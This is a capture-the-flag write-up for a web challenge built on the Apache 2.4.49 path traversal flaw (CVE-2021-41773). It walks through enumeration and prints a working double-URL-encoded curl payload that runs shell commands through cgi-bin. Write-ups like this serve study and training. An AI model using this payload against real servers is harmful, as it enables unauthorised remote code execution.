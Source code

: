 # Web Exploitation

## Require-all-denied

Based on: [CVE-2021-41773](https://github.com/thehackersbrain/CVE-2021-41773)



### Description

We found this control panel on the Internet. It seems to be broken. Can you find out more information?

[Access Here!](http://54.160.214.145:1337/)

Developed by: [Noah Jacobson](https://github.com/noahajac)



### Enumeration

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption><p>first look</p></figcaption></figure>

On the main page, there is nothing interesting but the url seems a bit odd.

> [http://54.160.214.145:1337/cgi-bin/index/](http://54.160.214.145:1337/cgi-bin/index/)

Looks like the server is using apache. Try search the version by look at web header.

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

:green\_book:Take note:

* [ ] Server: Apache/2.4.49 (Debian)
* [ ] Can't access route "**/cgi-bin**" and gave forbidden (**405**) but can access other  route like "**/cgi-bin/travel"** and "**/cgi-bin/status**"
* [ ] Possible LFI
* [ ] Try search the server vulnerability with keyword "**apache 2.4.49 exploit**"



### Exploit

#### Apache 2.4.49 Exploit

From here, I know that the vulnerabilities lies on path traversal (LFI) and could lead to RCE.

> [https://blog.intelliroot.com/2023/06/path-traversal-and-remote-code.html](https://blog.intelliroot.com/2023/06/path-traversal-and-remote-code.html)

Found payload from the blog above using:

```bash
curl 'http://localhost:1234/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; whoami'
```



where the basic idea is to back from previous path using ( **../** ). In the payload, using double encoding to avoid being detected/find a way so the code will work:

* ../ will be .%2e (**%2e** is url encoding equal **.**)
* .%2e will be .%%32%65 (**%32** equal **2** and **%65** equal **e**)



<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption><p>go to ../bin/sh to run a shell with given payload on the body</p></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption><p>got it</p></figcaption></figure>



{% hint style="success" %}
:triangular\_flag\_on\_post: jctf{plz\_p4tch\_y0ur\_s3rv3rs}
{% endhint %}

